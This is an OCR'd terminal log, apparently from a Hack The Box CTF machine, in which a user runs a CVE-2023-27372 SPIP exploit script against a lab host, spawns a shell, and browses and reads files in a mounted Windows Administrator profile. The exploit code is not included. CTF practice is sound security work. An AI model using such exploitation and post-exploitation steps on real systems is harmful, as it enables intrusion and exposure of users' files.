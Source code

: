 ````
┌──(l3mnt2010㉿ASUSEXPERTBOOK)-[~/HTBBusi/CVE-2023-27372/CVE-2023-27372-PoC]
└─$ sudo python3 exploit.py -u http://spip.submerged.htb
[+] The Target http://spip.submerged.htb is vulnerable
[!] Spawning interactive shell
[!] Shell spawned successfully. Ensure to re-type commands in the event they do not provide output.
$  sudo ls -la /mnt/temp/Users/Administrator/

total 1584
drwxrwxrwx 1 root root    512 Apr 10 11:55 .
drwxrwxrwx 1 root root    512 Apr 30 09:31 ..
drwxrwxrwx 1 root root    512 Nov 29  2022 3D Objects
drwxrwxrwx 1 root root    512 Apr 29  2020 AppData
lrwxrwxrwx 1 root root     45 Apr 29  2020 Application Data
drwxrwxrwx 1 root root    512 Nov 29  2022 Contacts
lrwxrwxrwx 1 root root     73 Apr 29  2020 Cookies
drwxrwxrwx 1 root root    512 Apr 27 11:38 Desktop
drwxrwxrwx 1 root root    512 Nov 29  2022 Documents
drwxrwxrwx 1 root root    512 Nov 29  2022 Downloads
drwxrwxrwx 1 root root    512 Nov 29  2022 Favorites
drwxrwxrwx 1 root root    512 Nov 29  2022 Links
lrwxrwxrwx 1 root root     43 Apr 29  2020 Local Settings
drwxrwxrwx 1 root root    512 Nov 29  2022 Music
lrwxrwxrwx 1 root root     39 Apr 29  2020 My Documents
-rwxrwxrwx 1 root root 262144 Apr 30 14:08 NTUSER.DAT
-rwxrwxrwx 1 root root  65536 Apr 29  2020 NTUSER.DAT{fcb0247b-8a45-11ea-8129-ff069143d34c}.TM.blf
-rwxrwxrwx 1 root root 524288 Apr 29  2020 NTUSER.DAT{fcb0247b-8a45-11ea-8129-ff069143d34c}.TMContainer00000000000000000001.regtrans-ms
-rwxrwxrwx 1 root root 524288 Apr 29  2020 NTUSER.DAT{fcb0247b-8a45-11ea-8129-ff069143d34c}.TMContainer00000000000000000002.regtrans-ms
lrwxrwxrwx 1 root root     81 Apr 29  2020 NetHood
drwxrwxrwx 1 root root    512 Nov 29  2022 Pictures
lrwxrwxrwx 1 root root     70 Apr 29  2020 Recent
drwxrwxrwx 1 root root    512 Nov 29  2022 Saved Games
drwxrwxrwx 1 root root    512 Nov 29  2022 Searches
lrwxrwxrwx 1 root root     70 Apr 29  2020 SendTo
lrwxrwxrwx 1 root root     74 Apr 29  2020 Start Menu
lrwxrwxrwx 1 root root     73 Apr 29  2020 Templates
drwxrwxrwx 1 root root    512 Nov 29  2022 Videos
-rwxrwxrwx 1 root root 143360 Apr 29  2020 ntuser.dat.LOG1
-rwxrwxrwx 1 root root  99328 Apr 29  2020 ntuser.dat.LOG2
-rwxrwxrwx 1 root root     20 Apr 29  2020 ntuser.ini
drwxrwxrwx 1 root root    512 Apr 30 09:40 tasks

$ sudo cat /mnt/temp/Users/Administrator/NTUSER.DAT

$  sudo cat /mnt/temp/Users/Administrator/ntuser.ini
��

$  sudo ls -la /mnt/temp/Users/Administrator/Cookies/

$  sudo ls -la /mnt/temp/Users/Administrator/Documents/

total 0
drwxrwxrwx 1 root root 512 Nov 29  2022 .
drwxrwxrwx 1 root root 512 Apr 10 11:55 ..
lrwxrwxrwx 1 root root  35 Apr 29  2020 My Music
lrwxrwxrwx 1 root root  38 Apr 29  2020 My Pictures
lrwxrwxrwx 1 root root  36 Apr 29  2020 My Videos
-rwxrwxrwx 1 root root 402 Nov 29  2022 desktop.ini

$ sudo cat /mnt/temp/Users/Administrator/Documents/desktop.ini
��
[.ShellClassInfo]
````